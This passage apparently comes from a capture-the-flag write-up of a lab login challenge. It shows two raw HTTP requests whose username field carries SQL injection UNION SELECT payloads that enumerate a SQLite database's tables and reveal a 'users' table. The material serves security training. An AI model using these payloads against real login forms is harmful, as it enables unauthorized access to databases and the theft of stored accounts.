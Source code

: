 The next step is to determine how many non SQLite system tables are present.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,(SELECT+COUNT(*)+FROM+sqlite_master+WHERE+type+%3d+'table'+AND+name+NOT+LIKE+'sqlite_%25')--&password=woo	
```

There is only one. Determine its name.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,(SELECT+name+FROM+sqlite_master+WHERE+type+%3d+'table'+AND+name+NOT+LIKE+'sqlite_%25')--&password=woo	
```

Its name is `users`.
